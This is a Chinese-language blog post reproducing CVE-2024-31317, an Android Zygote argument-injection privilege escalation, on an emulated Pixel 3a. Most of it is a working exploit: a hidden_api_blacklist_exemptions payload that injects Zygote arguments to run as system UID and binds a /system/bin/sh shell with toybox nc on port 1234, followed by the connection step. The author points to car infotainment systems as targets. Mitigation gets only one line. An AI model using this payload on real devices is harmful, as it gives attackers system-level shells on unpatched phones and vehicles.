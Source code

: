 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk0NzI3ODU0Mg==&mid=2247483901&idx=1&sn=584c0ed15e48cd1b6b2844170a747f22

#  【CVE-2024–31317】提权漏洞复现  
 网络安全知识   2025-07-17 13:45  
  
- 漏洞背景：Android 的 Zygote 进程负责启动新应用和系统进程。CVE-2024-31317 漏洞暴露了一个安全隐患，攻击者可以利用这个漏洞通过 Zygote 进程注入代码，从而获得系统权限执行恶意操作。  
  
- 影响范围：<=android 11  
  
- 漏洞危害：这个漏洞的利用不涉及内存的破坏，这意味着它可以在几乎任何运行Android 9或更高版本的设备上不加修改地工作，并且在重启后仍然有效。远比第一篇文章提到的  
CVE-2024-0044危害大。  
  
- 测试环境：win11+androidstudio Pixel3a Android9  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oW25xOtgTwIkavaTGZ1GD4WXmxm7PeBBtBCwtxznl07EwKkW91eQN7Zt5WDQ3ibsvNYkRNwrA9g2dWjQtic4maMg/640?wx_fmt=png&from=appmsg "")  
  
- 复现过程：  
  
1.启动安卓studio模拟一个android 9 的Pixel 3a，开启它的adb接口  
  
2.测试机用adb链接模拟器  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oW25xOtgTwIkavaTGZ1GD4WXmxm7PeBBI0b3HlFTesp3uFLmCPOBPhs3WQloHkOa7A2wMZ5bacouzuia9nPSAibg/640?wx_fmt=png&from=appmsg "")  
  
3.查看当前权限：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oW25xOtgTwIkavaTGZ1GD4WXmxm7PeBBhRkJH3L8UprNEia4DBQCicQmrzz7FcwQH0yPZh1YBvkLp4iayVxxFasNA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oW25xOtgTwIkavaTGZ1GD4WXmxm7PeBB8HWX7l30KhiazcIsxkdE2p7G9zkAaCkmPS7orOyE7t4bzcib1AGic5L8Q/640?wx_fmt=png&from=appmsg "")  
  
4.输入命令：  

```
am force-stop com.android.settings
```


```
settings put global hidden_api_blacklist_exemptions &#34;LClass1;->method1(
15
--runtime-args
--setuid=1000
--setgid=1000
--runtime-flags=2049
--mount-external-full
--target-sdk-version=29
--setgroups=3003
--nice-name=runnetcat
--seinfo=platform:su:targetSdkVersion=29:complete
--invoke-with
toybox nc -s 127.0.0.1 -p 1234 -L /system/bin/sh -l;
--instruction-set=arm
--app-data-dir=/data/
--package-name=com.android.settings
android.app.ActivityThread
&#34;
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/oW25xOtgTwIkavaTGZ1GD4WXmxm7PeBBuBvtq6MZtderanoWTQ58pSBhWMRaC9CINhn4libf9zkh4dFywy3NmiaQ/640?wx_fmt=png&from=appmsg "")  
  
  
此处注意，安卓模拟器的adb下没有开启nc命令的直接执行，上图中是通过  
toybox调用，  
busybox也行，给我的启示是，当测试车机时，可以用这两个命令尝试调用ncat转发流量  
  
5.编辑完隐藏api黑名单后，输入：  

```
am start -a android.settings.SETTINGS
```

  
启动设置  
  
6.**尝试连接**  
 本地计算机（
```
localhost
```

  
）的 **1234 端口**  
。  

```
toybox nc localhost 1234
```

  
此时，可以获得system权限：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oW25xOtgTwIkavaTGZ1GD4WXmxm7PeBBg3B0NwcDjIjvWHgPooYL6zL5cHmtbk9ytwK90rsPSgYlSDqyQkJPJg/640?wx_fmt=png&from=appmsg "")  
- 处置措施：  
打谷歌补丁  
  
- 思考：  
市面上的汽车安卓系统，基本都会存在，如果oem不及时提供升级措施，便会成为潜在攻击链条中的关键一环  
  
